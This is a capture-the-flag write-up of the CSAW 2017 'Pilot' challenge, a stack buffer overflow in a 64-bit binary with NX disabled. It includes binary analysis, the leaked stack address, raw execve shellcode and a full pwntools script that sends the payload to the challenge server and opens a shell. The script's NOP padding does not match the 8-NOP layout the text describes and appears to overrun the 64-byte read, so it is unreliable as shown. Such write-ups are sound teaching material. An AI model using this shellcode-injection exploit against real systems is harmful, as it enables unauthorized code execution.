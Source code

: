 #Pilot

Full disclosure, a teammate of mine solved this challenge while I was working on SVC, so I solved this after the competition. In addition to that, the shellcode I used is from this other writeup  of the this challenge:

https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/

Let's take a look at the challenge:
```
$	file pilot 
pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
$	pwn checksec pilot 
[*] '/Hackery/csaw17/pilot-pwn-75/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
So we can see that it is a 64 bit elf, without NX, a Stack Canary, or PIE. Let's run it:

```
$	./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7ffe1b239cb0
[*]Command:gimme that flag
```

So it starts off by printing out a bunch of text, then gives us what appears to be a stack address, then prompts us for input. Let's try to break it:

```
$	python -c 'print "0"*1000' | ./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff8f8a6770
[*]Command:Segmentation fault (core dumped)
```

So by throwing 1000 bytes worth of `'0'`, we managed to break it. It is probably a buffer overflow vulnerabillity. Looking at the code in IDA, the following bit of code sticks out:

```
  if ( read(0, &buf, 0x40uLL) <= 4 )
  {
    LODWORD(v11) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
    std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
    LODWORD(v12) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
    std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
    result = 0xFFFFFFFFLL;
  }
```

That call to read is where our input is scanned into memory. We can see that if it scans in less than 4 bytes into memory, it will print out a `Mission Failed` statement. SO we can see that it is scanning in `0x40` bytes into memory into `buf`. 

```
-0000000000000020 buf             db 32 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

Here we can that our input is being scanned into `rbp-0x20`. We can see that the return address is stored at `rbp+0x8`. With the `0x40` bytes of data we get to write with the read call, we can overwrite the return address. Now about that infoleak:

```
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  LODWORD(v9) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  LODWORD(v10) = std::ostream::operator<<(v9, &buf);
```

Here we can see the infoleak being printed. We can also see that the address being printed is that of `buf`, which is where our input is stored. So we have the address for the start of our input.

With these two things, we should be able to simply push shellcode onto the stack, then overwrite the return address to point to the start of our shellcode. That way when the function returns, it will execute our shellcode.

Now one thing to note, our shellcode has to be under 32 bytes. The reason for this being is that `buf` is only 32 bytes, and then there is `rbp` which takes up the 8 bytes between `buf` and the return address. When the code calls the leave instruction before it returns, it pops a value into the `rbp` register and will overwrite anything that is in it. So we have to if our shellcode into 32 bytes.

 Now our exploit will look like this:
 
 ```
 8 NOP instructions
 shellcode (24 bytes)
 8 NOP instruction (really doesn't matter what this us)
infoleak address (start of our input)
 ```
 
 We will throw 8 NOP instructions (NOP just runs the next instruction) in the beginning, just to give us a little room for error (we shouldn't need it). Then our shellcode will fill up the rest of the 32 bytes. Here is the exploit:
 
```
#Import pwntools
from pwn import *

#Establish the target
target = process('./pilot')
context.binary = ELF('pilot')
target = remote("pwn.chal.csaw.io", 8464)

#Attach gdb
#gdb.attach(target)

#Print out the initial text
print target.recvuntil("[*]Good Luck Pilot!....")

#Scan in and filter out the infoleak
target.recvline()
leak = target.recvline()
print leak
leak = leak.replace("[*]Location:", "")
leak = int(leak, 16)

#Print out the infoleak, then prompt for input as a break
log.info("The leak is: " + hex(leak))
print target.recvuntil("[*]Command:", "")
raw_input()

#Establish the shellcode, the offsets, and the payload
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
offset = "\x90"*(32 - len(shellcode)/2)
payload = offset + shellcode + offset + p64(leak)

#Send the payload
target.send(payload)

#Drop to an interactive shell
target.interactive()
```
